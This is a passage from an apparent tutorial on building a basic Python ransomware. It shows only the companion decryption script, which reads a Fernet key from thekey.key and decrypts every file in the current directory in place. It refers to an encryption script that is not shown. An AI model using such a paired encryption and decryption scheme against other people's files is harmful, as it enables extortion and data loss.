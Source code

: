 so now our decryption script should be similar to this:
```python
import os

from cryptography.fernet import Fernet


#   First step is to find all files in our current directory and store them in a list

files = []

#   Next we'll use a for loop to add all files in the current directory to our files list
for file in os.listdir():
    if file == 'ransomware.py' or file == 'thekey.key' or file == 'decrypt.py':
        continue
    #   We also need to confirm that we are only grabbing files and not directories
    if os.path.isfile(file):
        files.append(file)


#   We'll open the file containing our encryption key, and store the key in a variable
with open("thekey.key","rb") as key:
    decryptkey = key.read()


#   Next we'll decrypt all the files in our file list
for file in files:
    with open(file,"rb") as thefile:
        contents = thefile.read()
    decrypted_content = Fernet(decryptkey).decrypt(contents)

    with open(file, 'wb') as thefile:
        thefile.write(decrypted_content)

```

And that was it. So now we have both an encryption script and a decryption script

